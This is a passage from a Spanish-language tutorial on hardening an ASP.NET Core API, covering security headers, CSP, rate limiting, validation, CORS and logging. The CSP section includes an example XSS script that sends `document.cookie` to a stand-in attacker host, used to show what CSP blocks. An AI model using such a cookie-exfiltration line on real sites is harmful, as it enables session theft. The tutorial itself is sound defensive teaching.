- `mode=block`: Bloquea completamente la página si detecta XSS

```csharp
// Configuración del header
context.Response.Headers["X-XSS-Protection"] = "1; mode=block";
```

#### Nota importante

**X-XSS-Protection está obsoleto** en navegadores modernos. La protección moderna contra XSS es:

1. **Content Security Policy (CSP)** - Ver siguiente sección
2. **Validación de entrada** - Nunca confiar en inputs del usuario
3. **Output Encoding** - Codificar caracteres especiales

```csharp
// ✅ MEJOR: Content Security Policy
context.Response.Headers["Content-Security-Policy"] = 
    "default-src 'self'; script-src 'self'";
```

#### Comparación: Tipos de XSS y soluciones

| Tipo | Descripción | Solución |
|------|-------------|----------|
| **Stored XSS** | Código guardado en BD | Validación + Output Encoding + CSP |
| **Reflected XSS** | Código en URL | Validación + Output Encoding + CSP |
| **DOM-based XSS** | Código en cliente | Output Encoding + CSP |

---

### 28.5.4. Referrer-Policy - Control de información del referrer

#### ¿Qué es el Referrer?

Cuando un usuario hace clic en un enlace, el navegador envía la URL de la página anterior (referrer) al servidor de destino.



#### El problema

Si la URL del referrer contiene información sensible, puede filtrarse:

```http
// Ejemplo de referrer problemático
Referer: https://mi-sitio.com/usuario/editar?email=secreto@empresa.com
Referer: https://mi-sitio.com/carrito?producto_id=999
Referer: https://mi-sitio.com/admin/usuarios
```

#### Solución: Referrer-Policy

```http
Referrer-Policy: strict-origin-when-cross-origin
```

Este header controla qué información se envía como referrer:

| Valor | Descripción |
|-------|-------------|
| `no-referrer` | No envía referrer |
| `strict-origin-when-cross-origin` | Solo envía origen a orígenes externos |
| `same-origin` | Solo envía referrer a páginas del mismo origen |
| `origin` | Solo envía el origen (sin path) |
| `strict-origin` | Solo envía origen, incluso internamente |

```csharp
// Configuración del header
context.Response.Headers["Referrer-Policy"] = "strict-origin-when-cross-origin";
```

#### Comparación de políticas

| Política | Mismo origen | Orígenes externos |
|----------|--------------|-------------------|
| `no-referrer` | ❌ Nada | ❌ Nada |
| `origin` | ✅ Solo origen | ✅ Solo origen |
| `strict-origin-when-cross-origin` | ✅ URL completa | ✅ Solo origen |
| `unsafe-url` | ✅ Todo | ✅ Todo |

---

### 28.5.5. Permissions-Policy - Control de APIs del navegador

#### ¿Qué es Permissions-Policy?

**Permissions-Policy** (anteriormente Feature-Policy) permite controlar qué APIs del navegador puede usar la página. Es una capa adicional de seguridad.

#### APIs que se pueden controlar



#### ¿Por qué es importante?

Un sitio malicioso podría abusar de estas APIs:

- **Geolocation**: Rastrear ubicación del usuario sin permiso
- **Microphone/Camera**: Grabar audio/video sin que el usuario lo sepa
- **Payment**: Acceder a APIs de pago
- **USB**: Acceder a dispositivos USB conectados

#### Solución: Permissions-Policy

```http
Permissions-Policy: geolocation=(), microphone=(), camera=(), payment=(), usb=()
```

Los paréntesis vacíos `()` significan "bloquear".

```csharp
// Configuración del header
context.Response.Headers["Permissions-Policy"] = 
    "accelerometer=(), camera=(), geolocation=(), gyroscope=(), magnetometer=(), " +
    "microphone=(), payment=(), usb=()";
```

#### APIs comunes a bloquear

| API | Riesgo | Recomendación |
|-----|--------|---------------|
| `geolocation` | Rastreo de ubicación | Bloquear si no es necesaria |
| `microphone` | Grabación de audio | Bloquear por defecto |
| `camera` | Grabación de video | Bloquear por defecto |
| `payment` | Acceso a pagos | Bloquear si no se usa |
| `usb` | Acceso a dispositivos | Bloquear por defecto |
| `fullscreen` | Pantalla completa | Permitir si se necesita |

---

### 28.5.6. Content Security Policy (CSP)

#### ¿Qué es CSP?

**Content Security Policy** es el header de seguridad más importante. Define qué fuentes de contenido están permitidas en la página.



#### Ejemplo de CSP

```http
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self' 'unsafe-inline'; 
    style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
    img-src 'self' data: https:;
    font-src 'self' https://fonts.gstatic.com;
    connect-src 'self' https://api.misitio.com;
    frame-ancestors 'self';
    base-uri 'self';
```

#### Directivas de CSP

| Directiva | Descripción | Ejemplo |
|-----------|-------------|---------|
| `default-src` | Fuente por defecto | `default-src 'self'` |
| `script-src` | Scripts permitidos | `script-src 'self'` |
| `style-src` | Estilos permitidos | `style-src 'self' 'unsafe-inline'` |
| `img-src` | Imágenes permitidas | `img-src 'self' data: https:` |
| `font-src` | Fuentes permitidas | `font-src 'self' https://fonts.gstatic.com` |
| `connect-src` | Conexiones permitidas | `connect-src 'self' https://api.com` |
| `frame-ancestors` | Quién puede embedear | `frame-ancestors 'none'` |

#### Valores posibles

| Valor | Descripción |
|-------|-------------|
| `'self'` | Solo del mismo origen |
| `'none'` | Ninguna fuente |
| `'unsafe-inline'` | Scripts/estilos inline permitidos |
| `'unsafe-eval'` | eval() y similar permitidos |
| `https:` | Solo HTTPS |
| `data:` | Data URIs permitidos |

```csharp
// Configuración de CSP
context.Response.Headers["Content-Security-Policy"] = 
    "default-src 'self'; " +
    "script-src 'self'; " +
    "style-src 'self' 'unsafe-inline'; " +
    "img-src 'self' data:; " +
    "font-src 'self'; " +
    "connect-src 'self'; " +
    "frame-ancestors 'self'; " +
    "base-uri 'self'; " +
    "form-action 'self'; " +
    "upgrade-insecure-requests";
```

#### ¿Cómo protege CSP contra XSS?

Sin CSP (vulnerable):
```html
<script>
    // El atacante puede inyectar cualquier script
    fetch('https://atacante.com/robar?cookie=' + document.cookie);
</script>
```

Con CSP (protegido):
```http
Content-Security-Policy: script-src 'self'
```
```html
<!-- El navegador bloquea scripts inline no autorizados -->
<script>fetch('https://atacante.com/robar')</script>  <!-- ❌ Bloqueado -->
```

---

### 28.5.7. Resumen de Security Headers



### Tabla resumen de Security Headers

| Header | Valor | Ataque que previene | Prioridad |
|--------|-------|---------------------|-----------|
| **X-Content-Type-Options** | `nosniff` | MIME Snifting | Alta |
| **X-Frame-Options** | `DENY` | Clickjacking | Alta |
| **X-XSS-Protection** | `1; mode=block` | XSS (legacy) | Media* |
| **Referrer-Policy** | `strict-origin-when-cross-origin` | Fuga de información | Media |
| **Permissions-Policy** | `accelerometer=(), ...` | Abuso de APIs | Media |
| **Content-Security-Policy** | (configuración) | XSS (moderno) | **Alta** |

*X-XSS-Protection está obsoleto; usar CSP en su lugar

---

### Implementación completa del Middleware

```csharp
using Microsoft.AspNetCore.Builder;
using Microsoft.AspNetCore.Http;

namespace TiendaApi.Api.Middleware;

public class SecurityHeadersMiddleware(RequestDelegate next)
{
    private readonly RequestDelegate _next = next;

    public async Task InvokeAsync(HttpContext context)
    {
        // 1. Previene MIME Sniffing
        context.Response.Headers["X-Content-Type-Options"] = "nosniff";

        // 2. Previene Clickjacking
        context.Response.Headers["X-Frame-Options"] = "DENY";

        // 3. Protección XSS (legacy, para navegadores antiguos)
        context.Response.Headers["X-XSS-Protection"] = "1; mode=block";

        // 4. Controla información del referrer
        context.Response.Headers["Referrer-Policy"] = "strict-origin-when-cross-origin";

        // 5. Controla APIs del navegador
        context.Response.Headers["Permissions-Policy"] = 
            "accelerometer=(), camera=(), geolocation=(), gyroscope=(), " +
            "magnetometer=(), microphone=(), payment=(), usb=()";

        // 6. Content Security Policy (la más importante)
        context.Response.Headers["Content-Security-Policy"] = 
            "default-src 'self'; " +
            "script-src 'self' 'unsafe-inline'; " +
            "style-src 'self' 'unsafe-inline'; " +
            "img-src 'self' data: https:; " +
            "font-src 'self' https://fonts.gstatic.com; " +
            "connect-src 'self'; " +
            "frame-ancestors 'self'; " +
            "base-uri 'self'; " +
            "form-action 'self'; " +
            "upgrade-insecure-requests";

        // 7. Previene sniffing de MIME type para tipos específicos
        context.Response.Headers["X-Content-Type-Options"] = "nosniff";

        await _next(context);
    }
}

public static class SecurityHeadersMiddlewareExtensions
{
    public static IApplicationBuilder UseSecurityHeaders(this IApplicationBuilder app)
    {
        return app.UseMiddleware<SecurityHeadersMiddleware>();
    }
}
```

### Configuración en Program.cs

```csharp
var app = builder.Build();

// Security Headers - Siempre activo
app.UseSecurityHeaders();

app.UseAuthentication();
app.UseAuthorization();

app.MapControllers();

app.Run();
```

---

## 28.6. Rate Limiting

### ¿Qué es Rate Limiting?

Rate Limiting limita el número de solicitudes que un cliente puede hacer a una API en un período de tiempo específico.



### Vulnerabilidades que Previene

| Vulnerabilidad | Descripción | Impacto |
|----------------|-------------|---------|
| **DDoS** | Ataque de denegación de servicio | API inaccesible |
| **Fuerza Bruta** | Múltiples intentos de login | Cuentas comprometidas |
| **Scraping** | Extracción masiva de datos | Robo de información |
| **Abuso de API** | Uso excesivo de recursos | Degradación de rendimiento |

### Implementación de Rate Limiting

```csharp
public static IServiceCollection AddRateLimitingPolicy(this IServiceCollection services)
{
    services.AddMemoryCache();
    services.Configure<RateLimitOptions>(options =>
    {
        options.EnableEndpointRateLimiting = true;
        options.HttpStatusCode = 429;
        options.QuotaExceededMessage = "Demasiadas solicitudes. Por favor, intente más tarde.";
        
        options.GeneralRules = new List<RateLimitRule>
        {
            new RateLimitRule
            {
                Endpoint = "*",
                Limit = 100,
                Period = "15s"
            },
            new RateLimitRule
            {
                Endpoint = "*/api/v1/auth/*",
                Limit = 10,
                Period = "1m"
            },
            new RateLimitRule
            {
                Endpoint = "POST:*",
                Limit = 20,
                Period = "1m"
            }
        };
    });

    services.AddSingleton<IRateLimitCounterStore, MemoryCacheRateLimitCounterStore>();
    
    return services;
}

public static IApplicationBuilder UseRateLimiting(this IApplicationBuilder app)
{
    return app.UseIpRateLimiting();
}
```

### Respuesta de Rate Limiting

```json
{
    "statusCode": 429,
    "message": "Too Many Requests",
    "headers": {
        "X-RateLimit-Limit": "10",
        "X-RateLimit-Remaining": "0",
        "X-RateLimit-Reset": "60",
        "Retry-After": "60"
    }
}
```

---

## 28.7. Validación de Entrada

### ¿Por qué validar?

La validación de entrada previene ataques de inyección y datos maliciosos.



### Validación con Data Annotations

```csharp
public class CreateProductoRequest
{
    [Required(ErrorMessage = "El nombre es obligatorio")]
    [MinLength(2, ErrorMessage = "El nombre debe tener al menos 2 caracteres")]
    [MaxLength(200, ErrorMessage = "El nombre no puede exceder 200 caracteres")]
    public string Nombre { get; set; } = string.Empty;

    [Required]
    [Range(0.01, 10000, ErrorMessage = "El precio debe estar entre 0.01 y 10000")]
    public decimal Precio { get; set; }

    [MaxLength(2000)]
    public string? Descripcion { get; set; }
}

[HttpPost("productos")]
public async Task<IActionResult> Create([FromBody] CreateProductoRequest request)
{
    if (!ModelState.IsValid)
    {
        return BadRequest(new ValidationProblemDetails(ModelState));
    }

    var result = await _productoService.CreateAsync(request);
    return result.Match(
        producto => CreatedAtAction(nameof(GetById), new { id = producto.Id }, producto),
        error => BadRequest(new { error = error.Message })
    );
}
```

### Validación con FluentValidation

```csharp
public class CreateProductoRequestValidator : AbstractValidator<CreateProductoRequest>
{
    public CreateProductoRequestValidator()
    {
        RuleFor(x => x.Nombre)
            .NotEmpty().WithMessage("El nombre es obligatorio")
            .Length(2, 200).WithMessage("El nombre debe tener entre 2 y 200 caracteres")
            .Matches(@"^[a-zA-Z0-9\s\-]+$").WithMessage("El nombre contiene caracteres inválidos");

        RuleFor(x => x.Precio)
            .GreaterThan(0).WithMessage("El precio debe ser mayor a 0")
            .LessThanOrEqualTo(10000).WithMessage("El precio no puede exceder 10000");

        RuleFor(x => x.Descripcion)
            .MaximumLength(2000).WithMessage("La descripción no puede exceder 2000 caracteres");
    }
}
```

### Validación Personalizada

```csharp
public class ValidEmailDomainAttribute : ValidationAttribute
{
    private readonly string _allowedDomain;

    public ValidEmailDomainAttribute(string allowedDomain)
    {
        _allowedDomain = allowedDomain;
    }

    protected override ValidationResult? IsValid(object? value, ValidationContext validationContext)
    {
        if (value is string email)
        {
            var domain = email.Split('@').LastOrDefault();
            if (domain?.Equals(_allowedDomain, StringComparison.OrdinalIgnoreCase) == false)
            {
                return new ValidationResult(
                    $"El email debe ser del dominio {_allowedDomain}",
                    new[] { validationContext.MemberName });
            }
        }
        return ValidationResult.Success;
    }
}

// Uso
public class RegisterRequest
{
    [ValidEmailDomain("tienda.com")]
    public string Email { get; set; } = string.Empty;
}
```

---

## 28.8. CORS Seguro

### ¿Qué es CORS?

CORS (Cross-Origin Resource Sharing) permite o restringe solicitudes desde dominios diferentes.



### Configuración de CORS

```csharp
public static IServiceCollection AddCorsPolicy(
    this IServiceCollection services, 
    IConfiguration configuration,
    bool isDevelopment)
{
    var corsSettings = configuration.GetSection("Cors");
    var allowedOrigins = corsSettings.GetSection("AllowedOrigins").Get<string[]>() 
        ?? Array.Empty<string>();

    services.AddCors(options =>
    {
        options.AddPolicy("AllowSpecificOrigins", policy =>
        {
            policy.WithOrigins(allowedOrigins)
                  .AllowAnyHeader()
                  .AllowAnyMethod()
                  .AllowCredentials()
                  .WithExposedHeaders("X-Pagination");
        });

        // Política más restrictiva para producción
        if (!isDevelopment)
        {
            options.DefaultPolicy = new CorsPolicy
            {
                Origins = { "https://tienda.com", "https://www.tienda.com" },
                Headers = { "Content-Type", "Authorization", "X-Requested-With" },
                Methods = { "GET", "POST", "PUT", "DELETE", "PATCH" },
                SupportsCredentials = true
            };
        }
    });

    return services;
}
```

### Configuración en Program.cs

```csharp
var app = builder.Build;

app.UseCorsPolicy(configuration, app.Environment.IsDevelopment());

app.UseAuthentication();
app.UseAuthorization();

app.MapControllers();

app.Run();
```

### CORS Peligroso vs Seguro

```csharp
// ❌ PELIGROSO: Permite cualquier origen
services.AddCors(options =>
{
    options.AddPolicy("AllowAll", policy =>
    {
        policy.AllowAnyOrigin()
              .AllowAnyHeader()
              .AllowAnyMethod();
    });
});

// ✅ SEGURO: Orígenes específicos
services.AddCors(options =>
{
    options.AddPolicy("AllowSpecificOrigins", policy =>
    {
        policy.WithOrigins("https://tienda.com", "https://www.tienda.com")
              .WithHeaders("Content-Type", "Authorization")
              .WithMethods("GET", "POST", "PUT", "DELETE");
    });
});
```

---

## 28.9. Logging y Monitoreo de Seguridad

### ¿Por qué es importante?

El logging de seguridad permite detectar y investigar incidentes.



### Eventos de Seguridad a Loguear

| Evento | Nivel | Descripción |
|--------|-------|-------------|
| Login fallido | Warning | Intento de autenticación fallido |
| Login exitoso | Information | Autenticación exitosa |
| Acceso denegado | Warning | Intento de acceso sin autorización |
| Modificación de datos | Information | Cambios en datos sensibles |
| Excepciones | Error | Errores de la aplicación |
| Cambios de configuración | Information | Modificaciones en el sistema |

### Implementación de Logging

```csharp
public class SecurityEvent
{
    public DateTime Timestamp { get; set; } = DateTime.UtcNow;
    public string EventType { get; set; } = string.Empty;
    public string UserId { get; set; } = string.Empty;
    public string IpAddress { get; set; } = string.Empty;
    public string Endpoint { get; set; } = string.Empty;
    public string Message { get; set; } = string.Empty;
    public bool Success { get; set; }
}

public class AuditMiddleware
{
    private readonly RequestDelegate _next;
    private readonly ILogger<AuditMiddleware> _logger;

    public AuditMiddleware(RequestDelegate next, ILogger<AuditMiddleware> logger)
    {
        _next = next;
        _logger = logger;
    }

    public async Task InvokeAsync(HttpContext context)
    {
        var startTime = DateTime.UtcNow;
        
        await _next(context);

        var elapsed = DateTime.UtcNow - startTime;

        // Log de requests lentos
        if (elapsed.TotalSeconds > 5)
        {
            _logger.LogWarning("Request lento: {Method} {Path} - {Elapsed}ms",
                context.Request.Method,
                context.Request.Path,
                elapsed.TotalMilliseconds);
        }

        // Log de errores
        if (context.Response.StatusCode >= 400)
        {
            _logger.LogWarning("Response con error: {Method} {Path} - {StatusCode}",
                context.Request.Method,
                context.Request.Path,
                context.Response.StatusCode);
        }
    }
}
```

### Configuración de Serilog

```csharp
using Serilog;
using Serilog.Events;
using Serilog.Sinks.Datadog.Logs;

Log.Logger = new LoggerConfiguration()
    .WriteTo.Console()
    .WriteTo.File("logs/security-.txt", rollingInterval: RollingInterval.Day)
    .MinimumLevel.Debug()
    .MinimumLevel.Override("Microsoft", LogEventLevel.Information)
    .MinimumLevel.Override("Microsoft.AspNetCore", LogEventLevel.Warning)
    .CreateLogger();

builder.Host.UseSerilog();
```

---

## 28.10. Checklist de Seguridad

### Configuración Básica



### Checklist Completo

| Categoría | Elemento | Estado |
|-----------|----------|--------|
| **HTTPS** | Certificado válido | ☐ |
| **HTTPS** | HSTS activo (365 días) | ☐ |
| **HTTPS** | Redirect HTTP→HTTPS (301) | ☐ |
| **Headers** | X-Content-Type-Options: nosniff | ☐ |
| **Headers** | X-Frame-Options: DENY | ☐ |
| **Headers** | X-XSS-Protection: 1; mode=block | ☐ |
| **Headers** | Referrer-Policy configurada | ☐ |
| **Headers** | Permissions-Policy configurada | ☐ |
| **Auth** | JWT con expiración corta | ☐ |
| **Auth** | Password hashing seguro (BCrypt) | ☐ |
| **Auth** | Rate limiting en login | ☐ |
| **Auth** | Roles y políticas configurados | ☐ |
| **Validation** | Validación de entrada | ☐ |
| **Validation** | Validación de salida | ☐ |
| **CORS** | Orígenes específicos | ☐ |
| **Logging** | Logging de seguridad | ☐ |
| **Logging** | Alertas configuradas | ☐ |

### Verificación de Headers

```bash
# Verificar headers con curl
curl -I https://api.tiendadavinci.com/api/productos

# Expected headers:
# HTTP/1.1 200 OK
# X-Content-Type-Options: nosniff
# X-Frame-Options: DENY
# X-XSS-Protection: 1; mode=block
# Referrer-Policy: strict-origin-when-cross-origin
# Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

### Herramientas de Verificación

| Herramienta | Uso | URL |
|-------------|-----|-----|
| **curl** | Verificar headers desde CLI | - |
| **SSL Labs** | Análisis de SSL/TLS | https://ssllabs.com/ssltest/ |
| **Security Headers** | Análisis de headers | https://securityheaders.com/ |
| **Mozilla Observatory** | Análisis completo | https://observatory.mozilla.org/ |
| **OWASP ZAP** | Testing de seguridad | https://www.zaproxy.org/ |

---

## 28.11. Resumen

### Conceptos Clave

| Concepto | Descripción | Implementación |
|----------|-------------|----------------|
| **HTTPS** | Cifrado de transporte | TLS 1.3 + certificados |
| **HSTS** | Forzar HTTPS | max-age=31536000 |
| **Security Headers** | Protección del navegador | X-Content-Type, X-Frame, etc. |
| **Rate Limiting** | Prevenir abuso | Límites por IP/usuario |
| **Validación** | Datos limpios | Data Annotations + FluentValidation |
| **CORS** | Control de orígenes | Orígenes específicos |
| **Logging** | Auditoría de seguridad | Serilog + sinks |

### Flujo de Seguridad

```mermaid
flowchart TD
    subgraph "Request"
        A["Cliente"] -->|"HTTPS + Token"| B["API Gateway"]
    end
    
    subgraph "Validación"
        B --> C["Rate Limiting"]
        C -->|"Pass"| D["CORS"]
        D -->|"Pass"| E["Auth"]
        E -->|"Pass"| F["Validation"]
        F -->|"Pass"| G["Authorization"]
    end
    
    subgraph "Procesamiento"
        G -->|"Pass"| H["Business Logic"]
        H --> I["Response"]
    end
    
    subgraph "Logging"
        A -.->|"Log"| J["Audit Log"]
        C -.->|"Block"| J
        E -.->|"Fail"| J
        I -.->|"Log"| J
    end
    
    style A fill:#3498db,color:#fff
    style B fill:#27ae60,color:#fff
    style C fill:#f39c12,color:#000
    style D fill:#27ae60,color:#fff
    style E fill:#f39c12,color:#000
    style F fill:#27ae60,color:#fff
    style G fill:#f39c12,color:#000
    style H fill:#27ae60,color:#fff
    style I fill:#27ae60,color:#fff
    style J fill:#9b59b6,color:#fff
```

### Buenas Prácticas

| Práctica | Prioridad | Descripción |
|----------|-----------|-------------|
| Usar HTTPS siempre | 🔴 Alta | En producción, HTTPS es obligatorio |
| HSTS con max-age largo | 🔴 Alta | 31536000 segundos (1 año) mínimo |
| Security Headers | 🔴 Alta | Implementar todos los headers básicos |
| Rate Limiting | 🔴 Alta | Especialmente en endpoints de auth |
